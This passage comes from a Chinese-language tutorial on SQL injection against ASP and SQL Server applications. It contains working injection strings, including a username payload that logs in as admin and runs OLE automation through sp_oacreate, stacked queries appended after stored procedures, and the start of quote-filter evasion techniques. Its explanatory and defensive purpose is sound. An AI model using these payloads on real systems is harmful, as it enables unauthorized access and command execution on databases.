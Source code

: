 需要指出的是如果运行的环境是WIN NT4+IIS4平台上，那么通过这个程序运行的命令是以系统权限运行的。在IIS5中，它以一个比较低的权限IWAM_XXXaccount运行。

(4)这些例子阐述了这个技术的适用性；它可以使用&amp;apos;speech.voicetext&amp;apos;对象引起SQL SERVER发声：

declare @o int,@ret int

exec sp_oacreate &amp;apos;speech.voicetext&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;register&amp;apos;,NULL,&amp;apos;foo&amp;apos;,&amp;apos;bar&amp;apos;

exec sp_oasetproperty @o,&amp;apos;speed&amp;apos;,150

exec sp_oamethod @o,&amp;apos;speak&amp;apos;,NULL,&amp;apos;all your sequel servers are belong to,us&amp;apos;,528

waitfor delay &amp;apos;00:00:05&amp;apos;

我们可以在我们假定的例子中，通过指定在用户名后面来执行它（注意这个例子不仅仅是注入一个脚本，同时以admin权限登陆到应用程序）：

Username：admin&amp;apos;;declare @o int,@ret int exec sp_oacreate &amp;apos;speech.voicetext&amp;apos;,@o out exec sp_oamethod @o,&amp;apos;register&amp;apos;,NULL,&amp;apos;foo&amp;apos;,&amp;apos;bar&amp;apos; exec sp_oasetproperty @o,&amp;apos;speed&amp;apos;,150 exec sp_oamethod @o,&amp;apos;speak&amp;apos;,NULL,&amp;apos;all your sequel servers are belong to us&amp;apos;,528 waitfor delay &amp;apos;00:00:05&amp;apos;--

[存储过程]

传说如果一个ASP应用程序在数据库中使用了存储过程，那么SQL注入是不可能的。这句话只对了一半，这要看ASP脚本中调用这个存储过程的方式。

本质上，如果一个有参数的查询被执行 ，并且用户提供的参数通过安全检查才放入到查询中，那么SQL注入明显是不可能发生的。但是如果攻击者努力影响所执行查询语句的非数据部分，这样他们就可能能够控制数据库。

比较好的常规的标准是：

?如果一个ASP脚本能够产生一个被提交的SQL查询字符串，即使它使用了存储过程也是能够引起SQL注入的弱点。

?如果一个ASP脚本使用一个过程对象限制参数的往存储过程中分配（例如ADO的用于参数收集的command对象），那么通过这个对象的执行，它一般是安全的。

明显地，既然新的攻击技术始终地被发现，好的惯例仍然是验证用户所有的输入。

为了阐明存储过程的查询注入，执行以下语句：

sp_who &amp;apos;1&amp;apos; select * from sysobjects

or

sp_who &amp;apos;1&amp;apos;;select * from sysobjects

任何一种方法，在存储过程后，追加的查询依然会执行。

[高级SQL注入]

通常情况下，一个web应用程序将会过滤单引号（或其他符号），或者限定用户提交的数据的长度。

在这部分，我们讨论一些能帮助攻击者饶过那些明显防范SQL注入，躲避被记录的技术。

[没有单引号的字符串]

有时候开发人员会通过过滤所有的单引号来保护应用程序，他们可能使用VBScript中的replace函数或类似：

function escape(input)

input=replace(input,&quot;&amp;apos;&quot;,&quot;&amp;apos;&amp;apos;&quot;)
